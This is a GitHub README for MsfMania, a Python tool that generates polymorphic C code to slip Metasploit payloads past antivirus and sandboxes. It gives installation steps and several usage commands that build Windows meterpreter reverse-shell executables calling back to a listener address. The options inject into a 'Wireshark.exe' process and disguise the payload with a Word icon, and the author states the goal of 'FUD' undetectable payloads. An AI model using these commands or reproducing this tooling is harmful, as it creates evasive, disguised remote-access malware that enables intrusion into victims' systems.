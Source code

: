 # MsfMania

MsfMania is a command line tool developed in Python, allowing to automatically produce a source code in C language that will be used to bypass antimalware before executing a metasploit payload.

Version 2.0 is the last one because the hunt for as much FUD as possible is not possible when it comes to open source tools. 
Indeed the argument "Don't send to VirusTotal.com" is not effective, often skids want to send the generated payload to infinity on the site to see if the payload is indeed FUD, except that it is a vicious circle.
This tool will be further developed if you offer me important additions or bug reports.

## Version 2.1
New features:
```
1- New usage method
2- Perfomance increase
3- User interaction removed
4- Hardest loop usage removed
```

## Requirements
- Latest version of Kali Linux
- The kali-rolling repository
- Python3

## Installation
- Git clone this repository: ```git clone https://github.com/G1ft3dC0d3/MsfMania.git```
- cd into the MsfMania folder: ```cd MsfMania```
- Run MsfMania setup: ```python3 setup.py```

## Usage
```
python3 MsfMania.py -h
```
```
python3 MsfMania.py staged x64 windows/x64/meterpreter/reverse_tcp 192.168.254.129 4444 Malware local
```
```
python3 MsfMania.py staged x64 windows/x64/meterpreter/reverse_tcp 192.168.254.129 4444 Virus remote --procname Wireshark.exe --mscript --icon mco.ico
```
```
python3 MsfMania.py stageless x64 windows/x64/meterpreter_reverse_tcp 192.168.254.129 4444 Word remote --decoy 2000 --mscript --icon word.ico
```

## Features
- x86/x64 staged payload meterpreter/shell.
- x86/x64 stageless payload meterpreter/shell.
- Cross-compiler MinGW.
- Polymorphic C source code.
- Strip with MinGW.
- Executable customizable with an icon.
- Local/Remote Thread Shellcode Injection
- Sandbox/Antivirus Evasion
